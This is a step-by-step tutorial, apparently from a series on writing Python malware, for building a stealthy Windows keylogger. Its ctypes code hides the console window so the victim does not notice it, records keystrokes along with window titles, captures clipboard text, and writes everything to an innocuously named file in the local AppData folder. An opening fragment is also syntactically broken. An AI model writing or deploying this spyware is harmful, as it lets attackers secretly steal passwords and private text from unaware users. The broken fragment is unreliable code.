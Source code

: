 # Python

```python
import time
import pynput
import logging

import win32gui

def get_active_window_title():
    hwnd = win32gui.GetForegroundWindow()
    window_title = win32gui.GetWindowText(hwnd)
    return window_title

def on_press(key):
    window_title = get_active_window_title()
    current_time = time.time()
    log_filename = log_dir + str(int(current_time)) + '_keylogs.txt'
    logging.basicConfig(log_filename, logging.DEBUG, '%(asctime)s: %(message)s', 'a', **('filename', 'level', 'format', 'filemode'))
    logging.info(f'''Window: {window_title}, Key: {key}, Time: {current_time}''')

def start_keylogger():
    pass
```

Create a folder for the project and a sub-folder called modules. In the modules folder, create the file keylogger.py then open it in your text editor.

We first import the required standard libraries. Then, we have to import the Windows DLLs that provide the functions we’ll need. In this case, we’ll need kernel32.dll and user32.dll. Finally, we want to avoid showing the console window on the desktop which would raise suspicions.

```python
import ctypes
import logging

kernel32 = ctypes.windll.kernel32
user32 = ctypes.windll.user32

# Hide console
user32.ShowWindow(kernel32.GetConsoleWindow(), 0)
```

We have to build a function to get the current window title so we know in what program the user is typing.

```python
# Function to grab the current window and its title
def get_current_window():
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()
    length = GetWindowTextLength(hwnd)
    buff = ctypes.create_unicode_buffer(length + 1) # Create buffer to store the window title string

	# Get window title and store in buff
    GetWindowText(hwnd, buff, length + 1)

	# Return the value of buff
    return buff.value
```

The second function is to capture the content of the clipboard. It is a bit tricky to set up but it shows how to use pointers with ctypes.

```python
def get_clipboard():
    CF_TEXT = 1 # Set clipboard format

    # Argument and return types for GlobalLock/GlobalUnlock.
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    # Return type for GetClipboardData
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)
    
    # Required clipboard functions
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT): # If CF_TEXT is available
            data = GetClipboardData(CF_TEXT) # Get handle to data in clipboard
            data_locked = kernel32.GlobalLock(data) # Get pointer to memory location where the data is located
            text = ctypes.c_char_p(data_locked) # Get a char * pointer (string in Python) to the location of data_locked
            value = text.value # Dump the content in value
            kernel32.GlobalUnlock(data_locked) # Decrement de lock count
            return value.decode('utf-8') # Return the clipboard content
    finally:
        CloseClipboard()
```

Now, the keylogging function. That function, when called, requires two argument. The directory where the log file will be stored and the file name. Then, we configure the logger that will write the log file on disk. Finally, we set up the WinAPI function and variables we need, such as a dictionary for the special keys.

The keylogging algorithm is set to run indefinitely using a `while` loop. The reason is that we don’t want the keylogging to stop unless it is told to do so. This means that if we want to do other tasks meanwhile, we need to run it in parallel with other functions either in a thread or separate process. This will be challenging and we’ll cover this later in the series when attempting to do real parallelism (which is not the same as concurrency by the way). We’ll also introduce some modifications to use a timer to stop/start the keylogger as an alternative to parallelism.

```python
# Function to monitor and log keystrokes
def get_keystrokes(log_dir, log_name):

    # Logger
    logging.basicConfig(filename=(log_dir +"\\" + log_name), level=logging.DEBUG, format='%(message)s')

	# WinAPI function that determines whether a key is up or down
    GetAsyncKeyState = user32.GetAsyncKeyState
    special_keys = {0x08: 'BS', 0x09: 'Tab', 0x10: 'Shift', 0x11: 'Ctrl', 0x12: 'Alt', 0x14: 'CapsLock', 0x1b: 'Esc', 0x20: 'Space', 0x2e: 'Del'}
    current_window = None
    line = []

    while True:
        if current_window != get_current_window(): # If the content of current_window isn't the currently opened window
            current_window = get_current_window() # Put the window title in current_window
            logging.info(str(current_window).encode('utf-8')) # Write the current window title in the log file
        
        for i in range(1, 256): # Because there are 256 ASCII characters (even though we only really use 128)
            if GetAsyncKeyState(i) & 1: # If a key is pressed and matches an ASCII character
                if i in special_keys: # If special key, log as such
                    logging.info("<{}>".format(special_keys[i]))
                elif i == 0x0d: # If <ENTER>, log the line typed then clear the line variable
                    logging.info(line)
                    line.clear()
                elif i == 0x63 or i == 0x43 or i == 0x56 or i == 0x76: # If characters 'c' or 'C' are pressed, get clipboard data
                    clipboard_data = get_clipboard()
                    logging.info("[CLIPBOARD] {}".format(clipboard_data))
                elif 0x30 <= i <= 0x5a: # If alphanumeric character, append to line
                    line.append(chr(i))
```

To run the keylogger, we need to create the main program file that will import the module and execute the keylogger. In the root of your project directory, create a `main.py` file and add the following:

```python
import os
from modules import keylogger

log_dir = os.environ['localappdata']
log_name = 'applog.txt'

keylogger.get_keystrokes(log_dir, log_name)
```

---
## References

### 0x00sec

- [0x00sec: Windows Keylogging - Part I](https://0x00sec.org/t/windows-keylogging-part-i/99)

- [0x00sec: Malware writing - Python malware, part 1](https://0x00sec.org/t/malware-writing-python-malware-part-1/11700)

- [0x00sec: Python Windows Keylogger](https://0x00sec.org/t/python-windows-keylogger/11939)